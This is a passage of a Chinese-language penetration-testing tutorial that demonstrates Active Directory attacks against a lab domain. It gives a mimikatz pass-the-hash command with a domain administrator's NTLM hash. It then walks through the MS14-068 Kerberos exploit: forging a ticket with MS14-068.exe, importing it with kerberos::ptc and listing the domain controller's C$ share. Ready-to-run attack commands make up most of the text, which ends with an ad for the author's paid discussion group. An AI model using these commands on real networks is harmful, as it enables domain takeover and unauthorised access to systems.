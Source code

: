### 

### 哈希传递攻击

在域环境内，只有获得了域管理员的哈希才可以攻击。这里假设我们得到了域管理员administrator的哈希，但是没有得到明文密码。在这里我们就可以用哈希传递攻击了。

在前面获得了域管理员 administrator 的NTLM哈希为：c456c606a647ef44b646c44a227917a4

```
sekurlsa::pth /user:administrator /domain:"god.org" /ntlm:c456c606a647ef44b646c44a227917a4
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01143f4ad17079dd61.png)

### 

### MS14-068

MS14-068漏洞适用于当我们获得了普通域用户的哈希，域控存在MS14-068漏洞的场景。我们现在想利用获得了普通域用户哈希去访问域控。

但是这里我们是直接获得了域管理员的哈希，这里只是演示下MS14-068漏洞的攻击手法

先获取需要利用的域用户的SID值

[![](https://p3.ssl.qhimg.com/t01a6e1531c925ceacd.png)](https://p3.ssl.qhimg.com/t01a6e1531c925ceacd.png)

```
#生成票据TGT_administrator@god.org.ccache
MS14-068.exe -u administrator@god.org -p Password@ -s S-1-5-21-2952760202-1353902439-2381784089-500 -d 192.168.52.138       #MS14-068.exe -u 域用户@dog.org -p 域用户密码 -s 域用户的SID -d 域控ip
​
#在mimikatz中导入票据
kerberos::ptc  TGT_administrator@god.org.ccache的路径
​
​
然后再打开一个cmd窗口尝试访问域控
dir \\192.168.52.138\c$
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p3.ssl.qhimg.com/t0125ec9fb7443ccce7.png)](https://p3.ssl.qhimg.com/t0125ec9fb7443ccce7.png)



如果你想和我一起讨论的话，那就加入我的知识星球吧！

[![](https://p3.ssl.qhimg.com/t01a0861e08e1770c9b.png)](https://p3.ssl.qhimg.com/t01a0861e08e1770c9b.png)
